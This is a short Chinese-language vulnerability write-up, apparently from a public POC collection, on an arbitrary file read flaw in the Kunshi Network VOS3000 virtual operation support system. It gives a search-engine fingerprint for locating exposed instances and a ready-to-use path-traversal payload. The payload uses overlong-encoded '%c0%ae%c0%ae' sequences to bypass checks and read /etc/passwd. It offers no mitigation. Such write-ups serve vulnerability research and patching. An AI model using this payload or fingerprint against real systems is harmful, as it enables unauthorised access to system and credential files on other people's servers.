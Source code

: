 # 昆石网络 VOS3000虚拟运营支撑系统 %c0%ae%c0%ae 任意文件读取漏洞

## 漏洞描述

昆石网络 VOS3000虚拟运营支撑系统 通过 %c0%ae%c0%ae 等字符绕过检测，可导致任意文件读取漏洞

## 漏洞影响

```
昆石网络 VOS3000虚拟运营支撑系统
```

## 网络测绘

```
app="VOS-VOS3000"
```

## 漏洞复现

登录页面

![image-20220525144202606](./images/202205251442673.png)

验证POC

```
/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

![](./images/202205251443278.png)